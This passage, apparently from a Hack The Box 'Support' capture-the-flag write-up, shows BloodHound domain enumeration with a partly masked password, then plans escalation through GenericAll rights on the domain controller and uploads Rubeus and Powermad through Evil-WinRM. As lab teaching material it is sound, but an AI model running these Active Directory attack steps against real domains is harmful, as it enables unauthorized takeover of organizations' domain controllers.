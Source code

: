 Once neo4j and bloodhound are running, we use the ad-bloodhound.sh to enumerate the domain and upload the files to bloodhound.
```bash
./ad-bloodhound.sh                                                    
Domain: 
support.htb
Username: 
support
Password: 
Iron*************************
IP of Domain: 
10.10.11.174
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 15S
```
# Privilege Escalation
From bloodhound, we can see that the user ```support``` is part of the ```SHARED SUPPORT ACCOUNTS``` which has GenericAll permissions on ```DC.SUPPORT.HTB```. That means we can own the domain controller using a tool like Rubeus, using a powershell session with the user ```support``` which we already have as we were able to login using ```evil-winrm```.


```bash
*Evil-WinRM* PS C:\Users\support\Documents> cd C:\
*Evil-WinRM* PS C:\> mkdir temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/24/2025   5:09 AM                temp


*Evil-WinRM* PS C:\> cd temp
*Evil-WinRM* PS C:\temp> upload Rubeus.exe
                                        
Info: Uploading /home/kali/HTB/Support/Rubeus.exe to C:\temp\Rubeus.exe
                                        
Data: 595968 bytes of 595968 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\temp> upload Powermad.ps1
                                        
Info: Uploading /home/kali/HTB/Support/Powermad.ps1 to C:\temp\Powermad.ps1
                                        
Data: 180768 bytes of 180768 bytes copied
```